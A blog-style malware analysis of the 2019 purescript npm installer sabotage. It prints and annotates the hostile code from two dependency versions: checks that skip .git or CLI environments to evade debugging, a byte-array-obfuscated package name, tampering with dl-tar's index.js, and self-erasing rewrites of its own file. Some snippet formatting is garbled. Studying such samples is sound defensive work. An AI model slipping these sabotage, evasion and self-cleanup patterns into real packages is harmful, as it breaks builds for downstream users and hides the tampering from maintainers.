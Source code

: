 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ```if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }```

`} else {
    #call  tasks.unshift 1
  tasks.unshift(resolveSemverFromNpm);

}`

//call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

//Here comes a do-while loop that works out how the code is being run,
//by inspecting the parent property of each module in the chain.
//Check out the path.endsWith("cli")

  `do {   
    parent = parent.parent;

    try {
      const {path} = parent;`

//the attacker is deciding whether or not to run the exploit code, by checking on the version of the purescript npm installer,
//and if there is a .git working directory.  If the code detects a .git working directory, it'll skip the exploit.
//This is because .git directories aren't present in production environments, so it makes debugging this issue way harder.
// The intent is to  determine if a particular version of an installer is being run,
//and if the code is being run in a environment where it could be easily debugged!

       `if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);`

//The purpose of this parent variable is just the layup for the exploit code if the above conditions are met to allow for it.

  `if (typeof parent !== 'string') {
    return results[2];
  }`

//here's that [2] what's happening here is an if statement returning the PassThrough constructor
//in the case where the malicious code is being run, this breaks a related function to pull down some
//packages to complete the building of the software:

`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
  //You'll see the same check here if the code is running in a debug or non production environment.
  //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
//this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
